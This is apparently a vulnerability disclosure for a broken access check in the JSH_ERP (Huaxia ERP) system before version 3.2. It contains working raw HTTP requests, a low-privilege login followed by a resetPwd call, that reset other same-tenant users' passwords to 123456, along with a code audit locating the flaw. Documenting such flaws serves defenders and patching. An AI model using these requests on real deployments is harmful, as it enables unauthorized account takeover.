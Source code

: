 ### Logic loopholes in Huaxia ERP can lead to unauthorized access

### Author: heishou

### project address

### https://gitee.com/jishenghua/JSH_ERP/

### Affected version

<3.2。

### Vulnerability analysis 

Log in as administrator.

![img](https://cdn-images-1.medium.com/max/900/0*dISR_sba4TbVS7sP)

Open a new private browser access.

![img](https://cdn-images-1.medium.com/max/900/0*8j4gJPb9RWrZVnty)

First set the database user password to md5 of adc

![img](https://cdn-images-1.medium.com/max/900/0*6QzQxGXVZLm4TsqS)

First create several users and log in using user a1. Users can build their own

![img](https://cdn-images-1.medium.com/max/900/0*NZ-DF0LeXNpx4OTP)

POC：

```
POST /jshERP-boot/user/login/ HTTP/1.1
Host: 10.28.195.138:9999
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 64
Content-Type: application/json

{"loginName":"a1","password":"900150983cd24fb0d6963f7d28e17f72"}
```

First create several users and log in using user a1. Users can create their own. It can be observed that the user ID of user a1 is 148. Is the tenant of user 146. The login token f4cab0beb17642688dfa02a5a47a1d05_146 is used to construct the data packet

```
POST /jshERP-boot/user/resetPwd HTTP/1.1
Host: 127.0.0.1:3000
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
sec-ch-ua-mobile: ?0
X-Access-Token:f4cab0beb17642688dfa02a5a47a1d05_146
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
sec-ch-ua-platform: "Windows"
Accept: application/signed-exchange;v=b3;q=0.7,*/*;q=0.8
Purpose: prefetch
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:3000/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 12

{"id":"146"}
```

![img](https://cdn-images-1.medium.com/max/900/0*Ntp8CoAtTp2dG2Es)

Sending data packets found that the reset was successful. Users with other tenant IDs cannot be modified.

![img](https://cdn-images-1.medium.com/max/900/0*U9eIByX3jhTA3A-7)

The screenshot of the modified database user table is as follows (you can observe that the user password under tenant id146 has been changed):

![img](https://cdn-images-1.medium.com/max/900/0*iHLrYbStNL_ilYMQ)

### code analysis

###  

Through code audit, it can be found that the permissions of user functions are not verified. In the resetPwd function on line 209 of src/main/java/com/jsh/erp/controller/UserController.java.

![img](https://cdn-images-1.medium.com/max/900/0*ELm8ghWp30QvRjG6)

User passwords can be reset. Looking at the service level code, we found that there are restrictions on password modification only for users named admin.。

![img](https://cdn-images-1.medium.com/max/900/0*NKDBDzc0MrV9G2PJ)

The actually executed database statement updates the jsh_user table by id.

![img](https://cdn-images-1.medium.com/max/900/0*tPujpWpQ_0WFKAdV)

The statements in xml are: SELECT id, username, login_name, password, position, department, email, phonenum, ismanager, isystem, Status, description, remark, tenant_id FROM jsh_user WHERE id = ? The actual executed statements listed here are: SELECT id, username, login_name, password, position, department, email, phonenum, ismanager, isystem, Status, description, remark, tenant_id FROM jsh_user WHERE jsh_user.tenant_id = 146 AND id = ? It can be found that there are restrictions on tenant_id. A logical review of the website revealed that tenant_id is the tenant’s id. It is set through the sql interceptor

![img](https://cdn-images-1.medium.com/max/900/0*BqcFbajFzdY1q61J)

Through this vulnerability, the password of any user except the administrator can be changed to 123456.